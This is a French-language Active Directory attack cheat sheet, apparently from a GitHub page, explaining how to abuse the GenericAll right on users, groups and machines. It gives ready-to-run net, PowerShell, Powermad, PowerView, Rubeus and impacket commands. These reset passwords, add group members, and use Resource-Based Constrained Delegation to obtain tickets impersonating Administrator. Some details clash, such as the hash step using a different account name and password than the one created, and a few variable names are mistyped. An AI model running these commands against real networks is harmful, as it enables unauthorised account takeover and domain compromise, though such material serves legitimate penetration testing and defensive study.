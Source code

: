 Le droit `GenericAll` permet un contrôle total sur l'objet cible. Il peut être appliqué à des utilisateurs, des groupes ou des machines. Voici comment exploiter ce droit dans différents contextes :

### 📝GenericAll sur un Utilisateur

Si un utilisateur a le droit `GenericAll` sur un autre utilisateur, il est possible de réinitialiser le mot de passe de l'utilisateur cible.

#### 🍔 Depuis Windows

Utilisez la commande suivante pour réinitialiser le mot de passe d'un utilisateur depuis un environnement Windows :

```powershell
net user $userCible $nouveauPassword /domain
```

#### 🐧 Depuis Linux

Depuis un environnement Linux, vous pouvez utiliser la commande suivante :

```bash
net rpc user password $userCible $nouveauPass -U domain.local/$noreUser -S $dc
```

> Mettre un mot de passe en adéquation avec la politique de mot de passe du domaine, sinon celui-ci ne sera pas attribué et rien ne nous l'indique.

---
### 📝 GenericAll sur un Groupe

Si un utilisateur a le droit `GenericAll` sur un groupe, il peut s'ajouter en tant que membre de ce groupe.

#### 🍔 Depuis Windows

Utilisez les commandes suivantes pour ajouter un utilisateur à un groupe depuis un environnement Windows :

```powershell
net group "$groupeCible" $userCible /add /domain #cmd
Add-ADGroupMember -Identity "$groupeCible" -Members $userCible #powershell
Add-ADGroupMember -Identity "$groupeCible" -Members $userCible #powersploit
```

---
### 📝 GenericAll sur une Machine

Le droit `GenericAll` sur une machine permet d'abuser de la Resource-Based Constrained Delegation (RBCD).

#### 🍔 Depuis Windows

Pour exploiter ce droit, nous avons besoin des scripts `powermad.ps1` et `powerview`.

Création d'un compte machine :

```powershell
import-module powermad
New-MachineAccount -MachineAccount paked -Password $(ConvertTo-SecureString 'Sup3P4ssw0rd!' -AsPlainText -Force) -Verbose
```

Vérification de la création du compte :

```powershell
Get-DomainComputer
```

Écriture de la propriété `msds-allowedtoactonbehalfofotheridentity` sur le compte machine cible :

```powershell
$ComputerSid = Get-DomainComputer paked -Properties objectsid | Select -Expand objectsid

$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"

$SDBytes = New-Object byte[] ($SD.BinaryLength)

$SD.GetBinaryForm($SDBytes, 0)

Get-DomainComputer $cible | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

Récupération du hash du compte machine créé :

```
.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local
```

Récupération du ticket de l'utilisateur ayant des droits sur le compte machine cible :

```powershell
rubeus.exe s4u /user:paked$ /aes256:<aes256> /aes128:<aes128> /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:cifs/cible /domain:domain.local /ptt /altservice:http/cible
```

#### 🐧 Depuis Linux

Création d'un compte machine :

```bash
impacket-addcomputer -computer-name 'COMPUTER$' -computer-pass '$password' -dc-host $dc -domain-netbios $DOMAIN 'domain.local\$user:$password'
```

Écriture de la propriété `msds-allowedtoactonbehalfofotheridentity` sur le compte machine cible :

```bash
impacket-rbcd -delegate-from 'paked$' -delegate-to 'cible$' -dc-ip '$dc$' -action 'write' 'domain.local'/'$utilisateur':'$Password'
```

Récupération du ticket de l'utilisateur ayant des droits sur le compte machine cible :

```bash
impacket-getST -spn 'cifs/$cible' -impersonate Administrator -dc-ip '$dc' 'domain.local/paked$:$password'
```
